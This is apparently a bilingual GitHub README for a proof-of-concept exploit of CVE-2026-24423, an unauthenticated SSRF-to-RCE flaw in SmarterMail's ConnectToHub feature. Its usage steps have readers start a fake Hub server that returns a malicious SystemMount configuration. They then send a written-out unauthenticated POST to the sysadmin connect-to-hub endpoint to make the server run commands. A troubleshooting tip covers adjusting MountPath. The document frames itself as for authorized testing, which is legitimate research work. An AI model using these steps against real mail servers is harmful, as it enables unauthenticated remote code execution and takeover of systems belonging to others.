

# CVE-2026-24423

```markdown
# CVE-2026-24423 – Reproduction

> ⚠️ **仅用于安全研究与授权测试 / For security research and authorized testing only**


## 简介（Overview）

本项目用于复现 **CVE-2026-24423** 漏洞。  
该漏洞存在于 **SmarterMail ConnectToHub** 功能中，其根本原因是：

- 管理级接口未进行身份认证  
- 服务端会主动连接用户指定的 Hub（SSRF）  
- 外部 Hub 返回的数据被直接用于本地系统级操作  

该漏洞属于**设计级信任边界破坏（Trust Boundary Violation）**，最终可能导致远程代码执行。

本仓库仅用于**漏洞验证与技术研究**，不用于武器化利用。
```

## 使用方法（Usage）

### 1️⃣ 启动 Hub 模拟服务  
**Start Hub Simulation Server**

```bash
python3 cve-2026-24423.py
```

该脚本将：

- 监听 **80 端口**
- 模拟 SmarterMail Hub 接口
- 返回包含 `SystemMount` 配置的 JSON 响应

------

### 2️⃣ 触发漏洞接口

**Trigger the Vulnerable API**

使用 **Yakit** 或 **Burp Suite** 发送请求：

```http
POST /api/v1/settings/sysadmin/connect-to-hub HTTP/1.1
Host: ip:port
Content-Type: application/json

{
  "hubAddress": "http://ip",
  "oneTimePassword": "test",
  "nodeName": "victim"
}
```

> 该接口无需身份认证
> No authentication is required.

------

### 3️⃣ 复现失败处理

**Troubleshooting**

如果漏洞复现失败：

- 请修改 `cve-2026-24423.py` 中的 **`MountPath`** 参数

------

### 4️⃣ 复现结果

**Result**

当漏洞触发成功时，SmarterMail 将解析 Hub 返回的数据，默认代码仅执行whoami命令。

示例截图 / Example:



------

## 致谢（Credit）

本项目由**ChatGPT** 完成。
